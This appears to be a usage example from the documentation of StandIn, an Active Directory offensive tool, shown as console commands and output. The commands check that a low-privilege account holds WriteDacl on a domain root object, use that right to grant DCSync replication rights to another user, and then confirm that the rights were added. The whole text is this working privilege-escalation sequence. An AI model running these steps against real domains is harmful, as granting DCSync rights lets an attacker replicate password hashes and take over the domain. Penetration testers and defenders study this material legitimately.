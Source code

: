 ```
C:\> StandIn.exe --object "distinguishedname=DC=main,DC=redhook,DC=local" --access --ntaccount "MAIN\lowPrivButMachineAccess"

[?] Using DC : m-w19-dc01.main.redhook.local
[?] Object   : DC=main
    Path     : LDAP://DC=main,DC=redhook,DC=local

[+] Object properties
    |_ Owner : BUILTIN\Administrators
    |_ Group : BUILTIN\Administrators

[+] Object access rules

[+] Identity --> MAIN\lowPrivButMachineAccess
    |_ Type       : Allow
    |_ Permission : WriteDacl
    |_ Object     : ANY

C:\> StandIn.exe --object "distinguishedname=DC=main,DC=redhook,DC=local" --grant "MAIN\s4uuser" --type DCSync

[?] Using DC : m-w19-dc01.main.redhook.local
[?] Object   : DC=main
    Path     : LDAP://DC=main,DC=redhook,DC=local

[+] Object properties
    |_ Owner : BUILTIN\Administrators
    |_ Group : BUILTIN\Administrators

[+] Set object access rules
    |_ Success, added dcsync privileges to object for MAIN\s4uuser

C:\> StandIn.exe --object "distinguishedname=DC=main,DC=redhook,DC=local" --access --ntaccount "MAIN\s4uUser"

[?] Using DC : m-w19-dc01.main.redhook.local
[?] Object   : DC=main
    Path     : LDAP://DC=main,DC=redhook,DC=local

[+] Object properties
    |_ Owner : BUILTIN\Administrators
    |_ Group : BUILTIN\Administrators

[+] Object access rules

[+] Identity --> MAIN\s4uUser
    |_ Type       : Allow
    |_ Permission : ExtendedRight
    |_ Object     : DS-Replication-Get-Changes-All

[+] Identity --> MAIN\s4uUser
    |_ Type       : Allow
    |_ Permission : ExtendedRight
    |_ Object     : DS-Replication-Get-Changes

[+] Identity --> MAIN\s4uUser
    |_ Type       : Allow
    |_ Permission : ExtendedRight
    |_ Object     : DS-Replication-Get-Changes-In-Filtered-Set
```

